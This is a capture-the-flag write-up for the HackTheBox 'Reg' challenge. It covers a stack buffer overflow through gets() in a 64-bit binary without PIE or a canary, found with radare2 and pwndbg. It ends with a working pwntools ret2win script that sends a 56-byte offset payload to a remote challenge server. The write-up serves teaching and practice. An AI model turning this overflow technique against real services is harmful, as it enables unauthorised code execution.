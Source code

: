```yaml
---
layout: post
title: Binary Exploitation&#58; HacktheBox/Reg
---
```


# HacktheBox Reg Write-up

Check the file type:
```
└─$ file reg
reg: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=134349a67c90466b7ce51c67c21834272e92bdbf, for GNU/Linux 3.2.0, not stripped
```

Check securities:
```
└─$ checksec --file=reg   
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH	Symbols		FORTIFY	Fortified	Fortifiable	FILE
Partial RELRO   No canary found   NX enabled    No PIE          No RPATH   No RUNPATH   80 Symbols	  No	0		3		reg
```

Running the program, we are just prompted for our name and a string is printed out.
```
└─$ ./reg   
Enter your name : asdfasdf
Registered!
```

### Reversing

For this challenge, I am using radare2 for the reversing portion. I think this is an extremely powerful tool that I would like to learn more about.

After tracing through main, we get to a function called ```run()```. In that function, we see a ```gets()``` call, which as we know, will always yield a pwnable binary. Keep in mind, I am unable to copy/paste from the radare2 window into vim (as far as I know at the moment!).

The ```gets()``` function saves our input in a variable that is ```0x30``` bytes away from the base address. Our return address should be ```0x30 + 8``` bytes away from our input. Let;s test in ```pwndbg```.
```
pwndbg> i f
Stack level 0, frame at 0x7fffffffde10:
 rip = 0x40129e in run; saved rip = 0x6161616161616168
 called by frame at 0x7fffffffde18
 Arglist at 0x7fffffffde00, args: 
 Locals at 0x7fffffffde00, Previous frame's sp is 0x7fffffffde10
 Saved registers:
  rbp at 0x7fffffffde00, rip at 0x7fffffffde08
pwndbg> x 0x7fffffffde08
0x7fffffffde08:	0x61616168
pwndbg> x/gx 0x7fffffffde08
0x7fffffffde08:	0x6161616161616168
```

Since ```0x68``` is the letter ```h``` and ```0x61``` is the letter ```a```, we can use the ```cyclic -l``` command to calculate our offset.
```
pwndbg> cyclic -l haaaaaaa
Finding cyclic pattern of 8 bytes: b'haaaaaaa' (hex: 0x6861616161616161)
Found at offset 56
```

We were correct! Now we know our offset.

### Pwn

Now we need to find what we want ```rip``` to point to at the end of the ```run()``` function. 

We see a function called ```winner()``` that reads in our flag and prints it to the screen. This is a run-of-the-mill ret2win challenge. All we need to do is input junk bytes up to our offset, then append the address of ```winner()``` to our payload. Since PIE is disabled, we can copy the address straight from the disassembly.

Time to write the exploit.
```python
#!/usr/bin/env python3

from pwn import *

payload = b"A"*56 + p64(0x00401206)

p = remote("165.22.118.93", 30404)

p.sendline(payload)

p.interactive()
```

Et Voila!
